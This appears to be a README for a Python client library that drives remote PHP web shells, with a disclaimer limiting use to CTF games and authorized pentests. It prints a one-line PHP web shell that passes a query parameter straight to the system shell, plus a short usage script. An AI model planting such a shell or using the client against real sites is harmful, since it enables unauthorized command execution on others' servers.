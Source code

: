 # c0n3-shell - Python remote web shell client library

WIP - That project aim to provide simple to use, basic remote web shell client.


# Disclaimer

That library is provided AS-IS, and is **only** intended to be used in the context of **CTF games** and **pentests exercises** with the prior mutual and writen consent of the targeted sites.

The developpers will assume no liability and are not responsible for any misuse or damage caused by that library.

**YOU are responsible for what you do with it.**

It is the end user’s responsibility to obey all applicable local, state and federal laws.


# Usage

That library is intended to be used when you have a remote php shell accepting commands like that:
```
...
<?php passthru($_GET['cmd']); ?>
...
```
To use it, create a simple script, set the target url and various other options.
```
#!/usr/bin/env python
import c0n3shell

shell = c0n3shell.C0n3Shell(url='http://127.0.0.1/index.php')
shell.cmdloop()
```

# Available options

- http_verb: the http method to use, default `get`
- url: the remote shell url
- attribute: the injectable attribute, default `cmd`
